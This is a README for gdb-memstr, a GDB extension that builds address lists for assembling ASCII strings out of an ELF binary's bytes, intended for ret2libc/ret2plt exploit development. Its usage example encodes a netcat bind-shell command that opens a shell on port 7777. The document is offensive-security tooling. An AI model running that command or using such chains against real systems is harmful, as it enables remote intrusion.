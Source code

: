 #gdb-memstr
==========

###Description

gdb-memstr is a GDB extension for automating the task of assembling arbitrary ASCII strings out of the bytes that constitute an ELF binary.

This is generally useful during the development of ret2libc/ret2plt attacks when the user-supplied data is not located at a fixed or predictable location, in which case the arguments for the libc function should be generated on-the-fly by chaining calls to functions like memcpy/strcpy/strncpy/sprintf/snprintf/etc.

###Installation

You can either configure GDB to take advantage of the [auto-loading feature](https://www.sourceware.org/gdb/onlinedocs/gdb/Python-Auto_002dloading.html "Python Auto-loading") or you can load it manually every time using the ```source``` command.

```
# gdb
(gdb) python print gdb.PYTHONDIR
/usr/share/gdb/python
# source /path/to/memstr.py 
```


###Usage

```
$ gdb ./vuln
(gdb) break main
Breakpoint 1 at 0x400587
(gdb) run
Starting program: /home/max/Code/testbed/vuln 
(gdb) memstr "/bin/nc.traditional -lp7777 -e/bin/sh" text
STR = [
    struct.pack('<Q', 0x4015d8),	# /
	struct.pack('<Q', 0x4011ce),	# b
	struct.pack('<Q', 0x400b5a),	# i
	struct.pack('<Q', 0x401fee),	# n
	struct.pack('<Q', 0x4015d8),	# /
	struct.pack('<Q', 0x401fee),	# n
	struct.pack('<Q', 0x400635),	# c
	struct.pack('<Q', 0x40067a),	# .
	struct.pack('<Q', 0x4003da),	# t
	struct.pack('<Q', 0x40094b),	# r
	struct.pack('<Q', 0x4011eb),	# a
	struct.pack('<Q', 0x4006f9),	# d
	struct.pack('<Q', 0x400b5a),	# i
	struct.pack('<Q', 0x4003da),	# t
	struct.pack('<Q', 0x400b5a),	# i
	struct.pack('<Q', 0x401077),	# o
	struct.pack('<Q', 0x401fee),	# n
	struct.pack('<Q', 0x4011eb),	# a
	struct.pack('<Q', 0x4008e7),	# l
	struct.pack('<Q', 0x400787),	#  
	struct.pack('<Q', 0x4003f7),	# -
	struct.pack('<Q', 0x4008e7),	# l
	struct.pack('<Q', 0x400597),	# p
	struct.pack('<Q', 0x4003f1),	# 7
	struct.pack('<Q', 0x4003f1),	# 7
	struct.pack('<Q', 0x4003f1),	# 7
	struct.pack('<Q', 0x4003f1),	# 7
	struct.pack('<Q', 0x400787),	#  
	struct.pack('<Q', 0x4003f7),	# -
	struct.pack('<Q', 0x400f37),	# e
	struct.pack('<Q', 0x4015d8),	# /
	struct.pack('<Q', 0x4011ce),	# b
	struct.pack('<Q', 0x400b5a),	# i
	struct.pack('<Q', 0x401fee),	# n
	struct.pack('<Q', 0x4015d8),	# /
	struct.pack('<Q', 0x400519),	# s
	struct.pack('<Q', 0x4007a2),	# h
	struct.pack('<Q', 0x4003b5)	    # \0
]

(gdb) 
```

###Notes

- This extension has not been thoroughly tested, therefore expect issues.
- This extension "supports" x86 and x86-64 architectures. You'll have to tweak yourself the packing format of the resulting list if your architecture varies.


###Thanks

Thanks to [argp](https://twitter.com/_argp) for his input and spreading the word.
